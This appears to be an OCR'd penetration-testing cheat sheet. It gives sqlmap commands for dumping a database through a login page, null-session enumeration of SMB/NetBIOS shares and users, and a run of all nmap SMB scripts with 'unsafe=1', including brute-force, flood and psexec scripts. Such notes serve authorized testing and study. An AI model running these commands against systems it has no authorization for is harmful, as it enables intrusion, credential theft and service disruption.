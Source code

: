   == SQL ==
sqlmap -u "http://192.168.56.129/?page=login" -a --level=5
hexorbase  ##MySql, Oracle, PostgreSQL, SQLlite, MS-Sql browser

  == SMB NETBIOS==
enum4linux target
nmap -v -p 139,445 -oG smb.txt 192.168.11.200-254
nbtscan -r 192.168.11.0/24
nmblookup -A target
smbclient //MOUNT/share -I target -N
rpcclient -U "" target
smbmap -u "" -p "" -d MYGROUP -H 10.11.1.22



## NetBIOS NullSession enumeration
## This  feature  exists  to  allow  unauthenticated  machines  to  obtain  browse  lists  from  other  
## Microsoft   servers. Enum4linux is a wrapper  built on top of smbclient,rpcclient, net and nmblookup
./enum4linux -a 192.168.1.1

## NMAP SMB scripts
nmap --script smb-* --script-args=unsafe=1 192.168.10.55

##  ls -lh /usr/share/nmap/scripts/smb*
smb-brute.nse
smb-enum-domains.nse
smb-enum-groups.nse
smb-enum-processes.nse
smb-enum-sessions.nse
smb-enum-shares.nse
smb-enum-users.nse
smb-flood.nse
smb-ls.nse
smb-mbenum.nse
smb-os-discovery.nse
smb-print-text.nse
smb-psexec.nse
smb-security-mode.nse
smb-server-stats.nse
smb-system-info.nse
smb-vuln-conficker.nse
smb-vuln-cve2009-3103.nse
smb-vuln-ms06-025.nse
smb-vuln-ms07-029.nse
smb-vuln-ms08-067.nse
smb-vuln-ms10-054.nse
smb-vuln-ms10-061.nse
smb-vuln-regsvc-dos.nse
smbv2-enabled.nse
